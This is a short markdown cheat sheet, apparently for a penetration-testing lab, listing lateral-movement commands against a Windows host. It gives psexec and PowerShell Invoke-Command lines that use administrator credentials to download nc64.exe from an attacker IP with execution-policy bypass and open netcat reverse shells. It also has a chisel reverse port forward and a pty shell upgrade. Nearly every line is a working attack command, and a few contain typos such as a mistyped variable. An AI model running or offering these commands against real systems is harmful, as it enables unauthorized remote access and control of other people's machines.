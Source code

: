 ## Tool: Psexec.exe

To launch a command prompt on a remote machine (using password)

- ``` .\psexec.exe -accepteula -s \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password cmd.exe ```

To download nc64.exe on a remote machine (using password)

- ``` C:\Users\Public\psexec.exe -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password  powershell.exe -executionpolicy bypass -c wget http://192.168.14.10/nc64.exe -o C:\Users\Public\nc64.exe; ```

To get a reverse shell (using password) (requires nc64.exe to be downloaded on the target machine)

- PowerShell 1: ``` .\psexec.exe -s -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p qNkr96DvM03s58ckId8Bi867iuLp4BUNKbOTjFuHMrDu5AtI cmd.exe /c C:\users\Public\nc64.exe 191.168.14.10 8080 -e "powershell.exe -Executionpolicy bypass" ```

- PowerShell 2: ``` C:\Users\Public\psexec.exe -s -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password  powershell.exe -executionpolicy bypass -c C:\Users\Public\nc64.exe 192.168.14.10 8008 -e powershell.exe ```

- Cmd: ``` .\psexec.exe -accepteula \\ws01 -u ws01\Administrator -p password cmd.exe /c C:\users\Public\nc64.exe 192.168.14.10 8080 -e cmd.exe```

## Tool: PSRemote

To download nc64.exe on a remote machine and obtain a reverse shell (using PSCredential object)

```powershell
[string]$userName = 'yaksas'
[string]$userPassword = 'password'

# Convert to SecureString
[securestring]$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
[pscredential]$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)

Invoke-Command -Scriptblock {wget http://192.168.14.10/nc64.exe -o C:\Users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8081 -e powershell.exe} -computername ws01 -credential $credOjbect
```

## Tool: Chisel

To forward local port 80 

```Start-job -name "chisel" -ScriptBlock {C:\Users\yks\appdata\chisel.exe client 192.168.14.10:8080 R:8008:127.0.0.1:80}```

## Conver to full shell

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

